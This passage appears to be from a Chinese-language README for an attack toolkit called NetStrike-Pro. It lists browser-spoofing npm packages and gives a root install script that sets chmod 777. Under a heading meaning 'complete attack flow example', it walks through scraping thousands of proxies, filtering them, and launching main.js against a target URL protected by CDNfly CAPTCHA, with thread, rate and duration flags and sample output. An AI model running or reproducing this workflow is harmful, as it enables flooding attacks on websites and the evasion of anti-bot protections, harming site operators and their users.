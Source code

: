```bash
playwright-core
playwright-extra
random-referer
header-generator
user-agents
fake-useragent
randomstring
... 等 20+ 个包
```

**使用方法**:
```bash
# 给予执行权限
chmod +x Nodejs.sh

# 运行（需要 root）
sudo ./Nodejs.sh

# 输出：
# ✅ 更新系统包...
# ✅ 添加 Node.js v20 源...
# ✅ 安装 Node.js...
# ✅ 安装 Go...
# ✅ 安装 npm 依赖...
# 🎉 全部完成！
```

**优点**:
- ✅ 全自动
- ✅ 无需交互（DEBIAN_FRONTEND=noninteractive）
- ✅ 权限自动设置（chmod 777）
- ✅ 适配 Ubuntu/Debian

---

## 🏆 完整攻击流程示例

### 场景 1: 攻击带 CDNfly 验证码的目标

```bash
# === 步骤 1: 部署环境 ===
sudo ./Nodejs.sh  # 一键安装所有依赖

# === 步骤 2: 获取代理 ===
node github_list.js  # 自动拉取 10K+ 代理

# === 步骤 3: 筛选代理 ===
cd ..
python3 超高速筛选.py  # 筛选可用代理

# === 步骤 4: 自动绕过 + 攻击 ===
cd NetStrike-Pro/legacy
node main.js \
    -u https://target-with-cdnfly.com \
    -p ../../proxy_filtered.txt \
    -t 30 \
    -r 20 \
    -s 600 \
    -d \
    -c \
    -o

# 输出：
# ✅ [BROWSER] (1.2.3.4:8080) | 检测到验证码：CDNFLY新版_困难滑块
```